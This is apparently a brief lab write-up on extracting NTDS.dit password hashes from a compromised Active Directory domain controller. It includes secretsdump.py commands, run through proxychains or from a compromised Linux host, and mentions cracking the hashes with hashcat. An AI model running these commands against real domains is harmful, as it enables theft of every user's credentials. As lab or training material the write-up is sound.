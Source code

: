 This attack is a post DC compromise which means, we have compromised the DC or we have a valid Domain Admin credential.

THe NTDS.dit is a database used to store AD data, and this data includes
  - user info
  - group info
  - securty desciptors
  - password hashes

A tool caalled secretsdump.py was used to dumb all these info from the domain controler, and it tool is a available at  https://github.com/bb00/zer0dump/blob/master/secretsdump.py

THis attack can either be carried out using the attacker's machine + proxychains (needed for pivoting)
proxychains python3 secretsdump.py cyberwarefare.firm/Administrator:Pass@10.10.10.2 -just-dc-ntlm


Screenshot showing the final result
<img width="1070" height="535" alt="image" src="https://github.com/user-attachments/assets/a9769cd2-bf29-4c3f-ad9c-f22ba07e9e7b" />


or
it can be carried out from a compromised linux machine in the domain
python3 sec.py cyberwarefare.firm/Administrator:Pass@10.10.10.2 -just-dc-ntlm

<img width="889" height="512" alt="image" src="https://github.com/user-attachments/assets/c009029a-8767-442d-988d-7d5870f947bd" />




Then a hashcat would be sufficient to crack these ppasswords
